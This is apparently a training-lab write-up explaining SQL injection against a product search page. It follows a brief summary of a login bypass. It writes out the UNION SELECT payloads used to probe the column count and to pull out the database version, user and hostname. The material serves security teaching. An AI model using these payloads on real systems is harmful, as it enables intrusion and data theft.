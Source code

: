 ### Summary
The SQL injection worked by injecting a crafted payload that terminated the SQL command early and commented out the rest of the query. This bypassed the password check, allowing unauthorized access to the user account 'alice'. This exercise highlights the importance of securing SQL queries against injection attacks by using prepared statements or parameterized queries.

### SQL Injection Explanation for Extracting Server Information

#### Context
The exercise involves using SQL injection to extract server information such as the MySQL version, current user, and hostname from the `searchproducts.php` page. 

#### Injection Payload
The SQL injection payload used is:
```sql
1' UNION SELECT 1, 2, version(), current_user(), @@hostname -- 
```
This payload is designed to leverage the UNION SELECT statement to extract database information.

#### Step-by-Step Explanation

1. **Understanding the Vulnerable Query:**
   The typical query used to fetch product information might look like this:
   ```sql
   SELECT ProductName, ProductType, Description, Price FROM products WHERE ProductName LIKE '%input_searchitem%';
   ```
   Here, `input_searchitem` is the value submitted through the search form.

2. **Identifying the Number of Columns:**
   To use a UNION SELECT statement, the number of columns in both the original query and the injected query must match. We first need to identify how many columns are being selected in the original query. This is done using a series of payloads with increasing numbers of `NULL` values:
   ```sql
   1' UNION SELECT NULL -- 
   1' UNION SELECT NULL, NULL -- 
   1' UNION SELECT NULL, NULL, NULL -- 
   1' UNION SELECT NULL, NULL, NULL, NULL -- 
   1' UNION SELECT NULL, NULL, NULL, NULL, NULL -- 
   1' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL -- 
   ```
   The correct number of columns is determined when the payload does not result in an error.

3. **Crafting the Final Payload:**
   After identifying that the correct number of columns is five, the final payload is crafted to extract the desired information:
   ```sql
   1' UNION SELECT 1, 2, version(), current_user(), @@hostname -- 
   ```
   Let's break it down:
   - `1` and `2` are dummy values to match the expected number of columns.
   - `version()` returns the MySQL version.
   - `current_user()` returns the current database user.
   - `@@hostname` returns the hostname of the server.
   - `--` comments out the rest of the original query.
